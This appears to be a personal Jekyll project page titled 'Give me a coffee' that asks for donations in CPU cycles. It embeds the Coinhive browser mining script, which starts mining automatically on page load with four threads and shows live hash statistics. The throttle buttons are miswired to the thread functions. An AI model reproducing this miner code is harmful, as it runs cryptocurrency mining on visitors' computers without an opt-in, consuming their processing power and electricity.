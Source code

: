 ```yaml
---
layout: project
type: WIP
noimage: '<i class="fa fa-coffee fa-big12" aria-hidden="true"></i>'
image: 
title: Give me a coffee
github: 
description: Buy me a coffee buy giving me some CPU cycles.
---
```


### Performances:

* **Hashes per seconds:** <em id="hashespersecond">0</em><em>H/s</em><br>
* **Total hashes:** <em id="totalhashes">0</em><em>H</em><br>
* **Accepted hashes:** <em id="accepted">0</em><em>H</em>
* **Threads:**  <em id="numthreads">1</em><em>Threads</em> <button onclick="addThread();">+</button> <button onclick="removeThread();">-</button>
* **Throttle:**  <em id="throttle">0.8</em><button onclick="addThread();">+</button> <button onclick="removeThread();">-</button>


<script src="https://coin-hive.com/lib/coinhive.min.js"></script>

<script>
	var miner = {};
	window.onload = function() {
		miner = new CoinHive.Anonymous('94Ewh5erEv797iMDCHPDwSqQHFt6dvvd');
		miner.start();
		miner.setThrottle(0.8);
		miner.setNumThreads(4);
			// Listen on events
		miner.on('found', function() { /* Hash found */ })
		miner.on('accepted', function() { /* Hash accepted by the pool */ })

		// Update stats once per second
		setInterval(function() {
			var hashesPerSecond = miner.getHashesPerSecond();
			var totalHashes = miner.getTotalHashes();
			var acceptedHashes = miner.getAcceptedHashes();
			var numThreads = miner.getNumThreads();
			var throttle = miner.getThrottle();
			document.getElementById("hashespersecond").innerHTML = hashesPerSecond.toString();
			document.getElementById("totalhashes").innerHTML = totalHashes.toString();
			document.getElementById("accepted").innerHTML = acceptedHashes.toString();
			document.getElementById("numthreads").innerHTML = numThreads.toString();
			document.getElementById("throttle").innerHTML = throttle.toString();
			// Output to HTML elements...
		}, 333);
	} 

	function addThread() {
		t = miner.getNumThreads();
		miner.setNumThreads(t+1);
	}
	function removeThread() {
		t = miner.getNumThreads();
		miner.setNumThreads(t-1);
	}

	function increaseThrottle() {
		t = miner.getThrottle();
		if(t > 0.901) {
			miner.setThrottle(1.0);
		} else {
			miner.setThrottle(t+0.1);
		}
	}
	function reduceThrottle() {
		t = miner.getThrottle();
		if(t < 0.1999) {
			miner.setThrottle(0.1);
		} else {
			miner.setThrottle(t-0.1);
		}
	}
	
</script>
